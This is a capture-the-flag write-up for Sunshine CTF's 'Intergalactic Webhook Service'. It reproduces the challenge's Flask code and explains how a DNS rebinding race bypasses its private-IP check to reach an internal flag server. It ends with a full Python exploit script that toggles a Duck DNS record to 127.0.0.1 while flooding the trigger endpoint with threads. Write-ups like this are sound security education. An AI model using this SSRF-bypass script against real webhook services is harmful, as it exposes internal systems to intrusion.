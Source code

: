 # CTF Competition: Sunshine CTF

### CTF Name: Intergalactic Webhook Service
**CTF Weight:** 417 points


Let's look at the source code for this fun little webhook service:

```commandline
FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

app = Flask(__name__)

registered_webhooks = {}

def create_app():
    return app

@app.route('/')
def index():
    return render_template('index.html')

def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None

@app.route('/register', methods=['POST'])
def register_webhook():
    url = request.form.get('url')
    if not url:
        abort(400, 'Missing url parameter')
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return reason, 400
    webhook_id = str(uuid.uuid4())
    registered_webhooks[webhook_id] = url
    return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200

@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    webhook_id = request.form.get('id')
    if not webhook_id:
        abort(400, 'Missing webhook id')
    url = registered_webhooks.get(webhook_id)
    if not url:
        return jsonify({'error': 'Webhook not found'}), 404
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500

```

So the `/Register` endpoint will take a given URL and run it through `is_ip_allowed(url)`. If the IP is good then we get a json token which we feed into the 
`/trigger` endpoint. 

There is another server on port 5001 which contains the flag.
`threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()` 

It is important to not that you cannot directly access this server as it was created in the docker. So even when testing on local,
you will not be able to directly go to  `127.0.0.1:5001`. Only the service/container itself will be able to access it. 

It is important to note that the `is_ip_allowed(url)` is a preventative measure that is restricting certain ip addresses:

```
ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
```

This is a big issue because the flag is at 127.0.0.1 which is being blocked by this function.

Hmmm... lets think

During registration, it is preventing us from submitting a url that resolves to a private or local address.. so what if 
we first submitted an url that resolves to a  public address, then once it passes registration change it back to `127.0.0.1`

I used Duck DNS to carry out the DNS rebinding attack.

So the attack flow is as follows:

```
1) set controlled domain to resolve to valid public url

2) register this domain with the webhook service and retrieve the token

4) change the domain to resolve to 127.0.0.1

3) submit the token to /trigger
```

Now there is another `is_ip_allowed(url)` check in the trigger function which is very annoying and once again prevents us 
from going to the flag endpoint.

However, I can send ALOT of requests to the `/trigger` endpoint and during that call, then change the domain to resolve to `127.0.0.1`
This way, the domain rebinding will happen inside the `/trigger` function and we can potentially do a TOCTOU attack inside the function.

So the new attack flow is:

```
1) set controlled domain to resolve to valid public url

2) register this domain with the webhook service and retrieve the token

3) submit Thousands of requests to /trigger endpoint

    3a) change the domain to resolve to 127.0.0.1

```

Final script:
```commandline
#!/usr/bin/env python3
import requests
import threading
import time

DUCK_TOKEN = "<hehe no leaks >"
DOMAIN = "characterwhitectf.duckdns.org"

def update_dns(ip):
    requests.get(f"https://www.duckdns.org/update?domains={DOMAIN}&token={DUCK_TOKEN}&ip={ip}")

def attack():
    update_dns("208.67.222.222")
    time.sleep(0.3)
    
    r = requests.post("https://supernova.sunshinectf.games/register", 
                     data={"url": f"http://{DOMAIN}:5001/flag"})
    wid = r.json().get("id")
    
    for _ in range(20):
        update_dns("127.0.0.1")
        time.sleep(0.02)
        
        results = []
        def worker():
            try:
                r = requests.post("https://supernova.sunshinectf.games/trigger", 
                                 data={"id": wid}, timeout=6)
                if "sun{" in r.text:
                    results.append(r.text)
            except: pass
        
        threads = [threading.Thread(target=worker) for _ in range(120)]
        for t in threads: t.start()
        for t in threads: t.join()
        
        for flag in results:
            print(flag)
            return
        

attack()
```
